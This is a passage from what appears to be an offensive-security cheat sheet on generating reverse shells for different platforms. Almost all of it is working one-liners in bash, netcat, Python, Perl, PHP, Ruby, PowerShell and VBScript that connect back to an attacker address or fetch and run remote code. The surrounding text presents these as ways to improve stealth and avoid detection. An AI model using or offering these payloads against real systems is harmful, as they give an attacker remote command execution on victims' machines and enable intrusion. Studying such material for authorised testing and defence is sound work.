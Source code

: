 ### **Multi-Platform Reverse Shell Generation**

**What platform-specific shells require:** Different operating systems, programming languages, and environments need tailored reverse shell approaches for optimal compatibility and stealth.

**Why platform awareness matters:** Shell syntax varies significantly between platforms. Proper platform targeting improves reliability and reduces detection probability.

```bash
# Linux/Unix reverse shells

# Bash reverse shell (most common)
bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
# Alternative syntax for different bash versions
bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'

# Netcat reverse shells (if available)
nc -e /bin/bash 192.168.1.5 4444            # Traditional netcat with -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.5 4444 >/tmp/f  # FIFO-based netcat

# Python reverse shells
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python3 version
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Perl reverse shell
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# PHP reverse shell
php -r '$sock=fsockopen("192.168.1.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby reverse shell
ruby -rsocket -e'f=TCPSocket.open("192.168.1.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Windows reverse shells

# PowerShell reverse shell (Windows)
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.5',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# PowerShell one-liner (encoded)
powershell -EncodedCommand <base64_encoded_command>

# Netcat for Windows (if available)
nc.exe -e cmd.exe 192.168.1.5 4444

# Windows Script Host (VBScript)
echo strUrl = "http://192.168.1.5:4444" : Set objHTTP = CreateObject("MSXML2.XMLHTTP") : objHTTP.open "GET", strUrl, false : objHTTP.send : eval objHTTP.responseText > shell.vbs

# Why multiple language support is crucial:
# - Different systems have different interpreters available
```